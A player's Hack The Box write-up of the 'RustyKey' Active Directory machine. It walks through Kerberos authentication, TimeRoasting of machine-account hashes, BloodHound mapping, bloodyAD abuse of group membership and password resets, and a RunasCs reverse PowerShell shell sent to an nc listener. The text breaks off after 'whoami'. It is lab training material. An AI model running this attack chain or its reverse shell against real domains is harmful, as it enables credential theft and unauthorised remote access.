





RustyKey was a bit more technical and required a deeper understanding of how systems interact under the hood. I appreciated how each step built on the previous one, making the whole exploitation chain feel very logical. Some parts took time to fully understand, but that’s what made it satisfying in the end. It’s definitely a machine that helped me improve my troubleshooting and analysis skills.

<!--more-->

## About

**RustyKey** is a **Hard-level Linux-based machine** on the Hack The Box platform, designed to challenge your understanding of modern binary exploitation and privilege escalation techniques. Unlike straightforward web-based CTFs, RustyKey introduces advanced concepts such as secure service interaction, custom binary reverse engineering, and potentially Rust-based executables or system-level misconfigurations.

This write-up walks through my full exploitation path — from thorough enumeration and service analysis, to identifying vulnerabilities within custom applications, and ultimately escalating to root access. Throughout the process, custom scripting to analyze system behavior and craft working exploits.

The objective of this post is twofold: first, to provide a clear and structured breakdown of the attack chain — including reconnaissance, vulnerability analysis, and privilege escalation — and second, to explain the reasoning behind each decision made. This walkthrough aims not only to show _how_ the machine was rooted, but also _why_ specific methods and tools were used, contributing to a deeper understanding of complex Linux exploitation in a legal, controlled environment.

## Reconnaissance

### Nmap Scan

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ nmap --privileged -sC -sV -O -A -T4 -p- rustykey.htb                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-20 16:43 CEST
Nmap scan report for rustykey.htb (10.129.147.197)
Host is up (0.018s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-20 22:43:39Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49731/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=7/20%OT=53%CT=1%CU=33218%PV=Y%DS=2%DC=T%G=Y%TM=687D00E
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS=
OS:U)SEQ(SP=100%GCD=1%ISR=107%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=103%GCD=1%ISR
OS:=10A%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS
OS:=S%TS=U)SEQ(SP=FD%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M552NW8N
OS:NS%O2=M552NW8NNS%O3=M552NW8%O4=M552NW8NNS%O5=M552NW8NNS%O6=M552NNS)WIN(W
OS:1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%
OS:O=M552NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
OS:N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U
OS:1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
OS:I=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m59s
| smb2-time: 
|   date: 2025-07-20T22:44:40
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   17.26 ms 10.10.14.1
2   17.95 ms rustykey.htb (10.129.147.197)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.44 seconds
```

## Enumeration

To begin the enumeration phase, I used NXC (Next-Gen CrackMapExec) to check for available services and validate the discovered credentials for the user `rr.parker`. This user and password pair were obtained during earlier enumeration steps.

### SMB

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ nxc smb 10.129.147.197 -u 'rr.parker' -p '8#t5HE8L!W3A'
SMB         10.129.147.197  445    10.129.147.197   [*]  x64 (name:10.129.147.197) (domain:10.129.147.197) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.147.197  445    10.129.147.197   [-] 10.129.147.197\rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED
```

### LDAP

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ nxc ldap 10.129.147.197 -u 'rr.parker' -p '8#t5HE8L!W3A'
LDAP        10.129.147.197  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.147.197  389    DC               [-] rustykey.htb\rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED
```

Both returned `STATUS_NOT_SUPPORTED`, indicating that common authentication protocols are likely disabled or restricted on the target, pushing the focus towards Kerberos.
To proceed, it was necessary to configure the local Kerberos client via `/etc/krb5.conf`:

```bash
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = true

[realms]
    RUSTYKEY.HTB = {
        kdc = 10.10.11.75
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

This setup enables Kerberos-based tooling such as `impacket`, `Rubeus`, or `kerbrute` to interact properly with the domain controller at `10.10.11.75`, and is essential for any further ticket-based authentication or enumeration.

> [!TIP]
> Always make sure your system clock is synced with the DC to avoid this issue. In lab environments, tools like `rdate` and `faketime` are great for quickly aligning your time without changing your system clock globally.
>
> ```bash
> faketime "$(rdate -n 10.129.147.197 -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
> ```

### Kerberos

After detecting that traditional NTLM-based authentication was not supported on both LDAP and SMB, the next step was to leverage **Kerberos**.
With valid credentials for the user `rr.parker`, I used Impacket’s `getTGT` to obtain a Kerberos TGT

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ impacket-getTGT rustykey.htb/'rr.parker':'8#t5HE8L!W3A'    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in rr.parker.ccache
```

This command saved a `.ccache` file that can be reused for authenticated Kerberos operations

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ export KRB5CCNAME=/home/pullsec/ctf/HackTheBox/rustykey.htb/rr.parker.ccache
```

Now that the Kerberos ticket is in place, I re-tested LDAP enumeration using `nxc` with the `-k` flag (Kerberos authentication)
The authentication succeeded !

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ nxc ldap 10.129.147.197 -u 'rr.parker' -p '8#t5HE8L!W3A' -k 
LDAP        10.129.147.197  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.147.197  389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A
```

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ nxc ldap 10.129.147.197 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --users
LDAP        10.129.147.197  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.147.197  389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A
LDAP        10.129.147.197  389    DC               [*] Enumerated 11 domain users: rustykey.htb
LDAP        10.129.147.197  389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        10.129.147.197  389    DC               Administrator                 2025-06-05 00:52:22 0        Built-in account for administering the computer/domain
LDAP        10.129.147.197  389    DC               Guest                         <never>             0        Built-in account for guest access to the computer/domain
LDAP        10.129.147.197  389    DC               krbtgt                        2024-12-27 01:53:40 0        Key Distribution Center Service Account
LDAP        10.129.147.197  389    DC               rr.parker                     2025-06-05 00:54:15 0
LDAP        10.129.147.197  389    DC               mm.turner                     2024-12-27 11:18:39 0
LDAP        10.129.147.197  389    DC               bb.morgan                     2025-07-21 03:31:40 0
LDAP        10.129.147.197  389    DC               gg.anderson                   2025-07-21 03:31:40 0
LDAP        10.129.147.197  389    DC               dd.ali                        2025-07-21 03:31:40 0
LDAP        10.129.147.197  389    DC               ee.reed                       2025-07-21 03:31:40 0
LDAP        10.129.147.197  389    DC               nn.marcos                     2024-12-27 12:34:50 0
LDAP        10.129.147.197  389    DC               backupadmin                   2024-12-30 01:30:18 0
```

### TimeRoast

After enumerating domain users via LDAP authenticated with Kerberos, I identified machine accounts and opted for a lesser-known attack vector: **TimeRoasting**, leveraging the MS-SNTP extension in Windows time synchronization.

> [!IMPORTANT]
> To perform a TimeRoast attack, the following conditions must be met:
>
> 1. The target must expose UDP port `123` and support **MS-SNTP** (Microsoft SNTP).
> 2. The attacker must be able to **enumerate machine account RIDs**.
> 3. No authentication is required, but time-based password changes must be infrequent for cracking success.
> 4. The target domain controller should be accessible for unauthenticated time queries.

Tool used: [`timeroast.py`](https://github.com/SecuraBV/Timeroast) by Tom Tervoort (SecuraBV)
This returned several `$sntp-ms$` formcatted hash lines (truncated here for clarity)

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb/Timeroast]
└─$ python timeroast.py 10.129.147.197              
1000:$sntp-ms$fe6eae0a880b24f55c03fa4a322f0c9b$1c0111e900000000000a546e4c4f434cec27aa0aa22f3eb1e1b8428bffbfcd0aec28195a422f1b76ec28195a422f4f78
1103:$sntp-ms$4c1a95fa78db97f9c6847492c27b57ba$1c0111e900000000000a546e4c4f434cec27aa0a9fa3c3bfe1b8428bffbfcd0aec28195adbcc92ebec28195adbcccda3
1104:$sntp-ms$a2de701d9b6fb017f1e9b88bf2774633$1c0111e900000000000a546e4c4f434cec27aa0aa0e79aaee1b8428bffbfcd0aec28195add1069daec28195add10a137
1105:$sntp-ms$f83c252fb3437d313b90a9d580a30383$1c0111e900000000000a546e4c4f434cec27aa0aa2dd7088e1b8428bffbfcd0aec28195adf063c5aec28195adf067a6d
1106:$sntp-ms$bb13ad4485303d7d214a9e6316f0dab1$1c0111e900000000000a546e4c4f434cec27aa0aa0215336e1b8428bffbfcd0aec28195ae0213a0cec28195ae02163fd
1107:$sntp-ms$0b124e4e8d04b9d96a861d8693ee16f1$1c0111e900000000000a546e4c4f434cec27aa0aa09d3f40e1b8428bffbfcd0aec28195ae09d2468ec28195ae09d4cac
1118:$sntp-ms$251da0dd53ea17e3f97d25f0e64ac127$1c0111e900000000000a546e4c4f434cec27aa0a9ff775ede1b8428bffbfcd0aec28195af01809e2ec28195af01847f5
1119:$sntp-ms$1ea5d93bd937b8d723bdef7bfc1e1a59$1c0111e900000000000a546e4c4f434cec27aa0aa144998de1b8428bffbfcd0aec28195af16530dcec28195af1656eef
1120:$sntp-ms$d64a1cfb2040e705d9f793c82c5f5fac$1c0111e900000000000a546e4c4f434cec27aa0aa2d80d72e1b8428bffbfcd0aec28195af2f89fb9ec28195af2f8eb38
1121:$sntp-ms$682fb48ea323edbb7623f2757d9b40e0$1c0111e900000000000a546e4c4f434cec27aa0aa048e54ce1b8428bffbfcd0aec28195af482095aec28195af4825686
1122:$sntp-ms$3cada412a4d663f462ffcbfd61fd9056$1c0111e900000000000a546e4c4f434cec27aa0aa0c2359ae1b8428bffbfcd0aec28195af4fb6714ec28195af4fba527
1123:$sntp-ms$1a2e7276b8bc317279a879116ebf80e0$1c0111e900000000000a546e4c4f434cec27aa0aa1e63985e1b8428bffbfcd0aec28195af61f65f6ec28195af61faac0
1125:$sntp-ms$c5f978685c37ce27ac9c1f7d68c34fb8$1c0111e900000000000a546f4c4f434cec27aa0aa0d2150be1b8428bffbfcd0aec28195af8e25778ec28195af8e289cd
1124:$sntp-ms$a3236134a27e870be225b5d49d48b365$1c0111e900000000000a546f4c4f434cec27aa0aa0d03389e1b8428bffbfcd0aec28195af8e06027ec28195af8e0b40a
1126:$sntp-ms$c48347d0d5480f95dc4f15dca126b614$1c0111e900000000000a546f4c4f434cec27aa0aa127f795e1b8428bffbfcd0aec28195af93840b9ec28195af9386aaa
1127:$sntp-ms$eca39422107467935e93735d55f43cd6$1c0111e900000000000a546f4c4f434cec27aa0a9f704288e1b8428bffbfcd0aec28195afb990afeec28195afb995175
```

Each line corresponds to a **machine account RID and its associated hash**, ready for offline cracking using tools like `hashcat` or `john`.
After collecting `$sntp-ms$` hashes using `timeroast.py`. Then, I used Hashcat to crack them

> [!WARNING]
> The `$sntp-ms$` hash format used for TimeRoasting is **only supported in the beta version of Hashcat** (v6.2.6+).
>
> If you're using the stable release (`apt install hashcat`), you may not be able to crack these hashes.  
> Download the latest beta version from [**hashcat.net/beta/**](https://hashcat.net/beta/) and compile it manually or use the prebuilt binaries.

```bash
┌──(rustykey-venv)─(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb/hashcat-6.2.6]
└─$ ./hashcat.bin -a 0 -m 31300 -O ../hash_clean.txt /usr/share/wordlists/rockyou.txt
```

> [!NOTE]
> Always try cracked machine account passwords for interactive logon (Kerberos/smbexec), privilege escalations, or re-use across misconfigured services.

### BloodHound

With valid credentials for `rr.parker`, and Kerberos fully configured, I launched BloodHound using `bloodhound-python`

```bash
┌──(rustykey-venv)─(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -ns 10.129.147.197 -c All --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: rustykey.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 16 computers
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 12 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: dc.rustykey.htb
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Done in 00M 04S
INFO: Compressing output into 20250720074415_bloodhound.zip
```

Then, I opened BloodHound CE in the browser, connected to my local Neo4j instance, and uploaded the archive.

This helped identify a potential privilege escalation path via a machine account with GenericAll rights over a target computer or user — a typical vector for RBCD (Resource-Based Constrained Delegation) or AddMember → Admins exploitation.

The RID `1125` corresponds to the machine account: `IT-COMPUTER3$`.
This was confirmed by cross-referencing the user enumeration output from LDAP and BloodHound data. In Active Directory, computer accounts typically have RIDs starting around 1000 and ending with a `$`.

> [!NOTE]
> You can identify a computer account either by name (`...$`) or by RID (Relative Identifier). In this case, `1125 → IT-COMPUTER3$`.

<div style="display: flex; justify-content: center;">
  
</div>
<br>
<div style="display: flex; justify-content: center;">
  
</div>
<br>
<div style="display: flex; justify-content: center;">
  
</div>

## Initial Access (Exploitation)

With valid credentials for `IT-COMPUTER3$` (cracked via TimeRoasting), I proceeded to abuse any **privileged ACLs** discovered in BloodHound.
BloodHound revealed that `IT-COMPUTER3$` has **AddMember** or **GenericAll** rights over the `HELPDESK` group. Using `bloodyAD`, I added the machine account into the group

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ impacket-getTGT rustykey.htb/'IT-Computer3$':'Rusty88!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in IT-Computer3$.ccache
```

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ export KRB5CCNAME=/home/pullsec/ctf/HackTheBox/rustykey.htb/IT-Computer3\$.ccache
```

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```

Next, I attempted to reset the password of the user bb.morgan, assuming HELPDESK group had sufficient rights

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'ABCdef123456!!' 
[+] Password changed successfully!
```

However, attempting to authenticate with bb.morgan failed

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ impacket-getTGT rustykey.htb/'bb.morgan':'ABCdef123456!!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```

> [!WARNING]
> This likely means that bb.morgan is a Protected User or belongs to a group with account protection policies (e.g., no DES/RC4, smartcard required, or AES-only enforcement).
> You may need to:
>
> - Remove the user from a protected group (e.g., PROTECTED USERS)
>
> - Adjust the account's encryption options via delegation or other abuse

To eliminate these restrictions, I removed the `IT` object from the `PROTECTED OBJECTS` group

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
```

Then, I successfully obtained a TGT for bb.morgan

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ impacket-getTGT rustykey.htb/'bb.morgan':'ABCdef123456!!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in bb.morgan.ccache
```

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ export KRB5CCNAME=/home/pullsec/ctf/HackTheBox/rustykey.htb/bb.morgan.ccache
```

Using Kerberos authentication, I connected to the domain controller as bb.morgan

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ evil-winrm -i dc.rustykey.htb -u 'bb.morgan' -r rustykey.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
```

  ```powershell
  *Evil-WinRM* PS C:\Users\bb.morgan\Documents> type ../desktop/user.txt
  ```

## Post-Exploitation

While exploring `C:\Users\bb.morgan\Desktop`, I found a document named `internal.pdf`

```bash
*Evil-WinRM* PS C:\Users\bb.morgan\desktop> download internal.pdf
```

This memo strongly suggests that members of the Support group have:

- Write access to sensitive registry keys (likely under HKLM\Software\Classes\...)
- Possibly control over context menu handlers, such as .zip/.rar shell extensions
- A temporary elevation that may not yet be revoked

If bb.morgan is part of the Support group (or can be added to it), this opens the door to registry-based privilege escalation, such as:

- DLL hijacking via registry manipulation (Image File Execution Options, App Paths, etc.)
- Abuse of AlwaysInstallElevated
- Exploiting shell extension misconfiguration

<div style="display: flex; justify-content: center;">
  
</div>

> [!NOTE]
> The memo provides a subtle but powerful hint: monitor the registry or context menu actions to identify insecure paths or override mechanisms, possibly leading to code execution as SYSTEM.

Using earlier LDAP enumeration and BloodHound data, I noticed:

- `ee.reed` is a member of the **Support** group
- ...but also a member of **PROTECTED OBJECTS**, which restricts password manipulation and weak encryption use

### Group Membership

To proceed, I had to remove `Support` from the `PROTECTED OBJECTS` group (which protects **all** its members by inheritance).

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
[-] SUPPORT removed from PROTECTED OBJECTS
```

After resetting `ee.reed`’s password successfully

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'ABCdef123456!!'
[+] Password changed successfully!
```

> [!CAUTION]
> I attempted to connect using Evil-WinRM with Kerberos, however the connection failed with a GSSAPI error
>
> - Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied

As an alternative, I used the custom tool [`RunasCs.exe`](https://github.com/antonioCoco/RunasCs) to launch a process under `ee.reed`'s credentials from within the current WinRM session (`bb.morgan`).

```powershell
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> upload /home/pullsec/ctf/HackTheBox/rustykey.htb/RunasCs/RunasCs.exe
                                 
Info: Uploading /home/pullsec/ctf/HackTheBox/rustykey.htb/RunasCs/RunasCs.exe to C:\Users\bb.morgan\Documents\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
                                        
Info: Upload successful!
```

## Privilege Escalation

On the victim

```bash
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> .\RunasCs.exe ee.reed ABCdef123456!! powershell.exe -r 10.10.14.142:6666
[*] Warning: User profile directory for user ee.reed does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-827b84$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 6032 created in background.
```

On the attacker

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.142] from (UNKNOWN) [10.129.148.109] 64091
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
